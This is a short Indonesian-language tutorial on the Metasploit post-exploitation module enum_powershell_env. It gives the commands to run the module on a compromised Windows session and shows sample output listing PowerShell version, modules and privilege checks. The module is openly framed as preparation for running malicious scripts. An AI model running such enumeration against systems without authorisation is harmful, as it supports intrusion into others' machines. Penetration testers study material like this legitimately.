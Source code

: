 # enum_powershell_env

Modul `enum_powershell_env` di Metasploit adalah modul `post-exploitation` untuk sistem Windows yang digunakan untuk mengumpulkan informasi lingkungan `PowerShell` pada sistem target, termasuk versi `PowerShell`, `execution policy`, dan `variable environment` yang relevan, yang berguna untuk analisis lebih lanjut atau persiapan eksekusi skrip berbahaya.

## Cara Penggunaan di Metasploit

```
use post/windows/gather/enum_powershell_env
set SESSION <ID>
set VERBOSE true
run
```

Hasil output-nya seperti ini:

```
[*] Running module against ADMIN-PC (192.168.1.53)
[*] PowerShell is installed on this system.
[*] Version: 2.0
[*] Execution Policy: 
[*] Path: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
[*] No PowerShell Snap-Ins are installed
[*] PowerShell Modules paths:
[*] 	WindowsPowerShell\Modules
[*] 	C:\Windows\system32\WindowsPowerShell\v1.0\Modules\
[*] PowerShell Modules:
[*] 	AppLocker
[*] 	BitsTransfer
[*] 	PSDiagnostics
[*] 	TroubleshootingPack
[*] Checking if users have PowerShell profiles
[*] Running with elevated privileges. Extracting user list ...
[*] Checking admin
[*] Post module execution completed
```
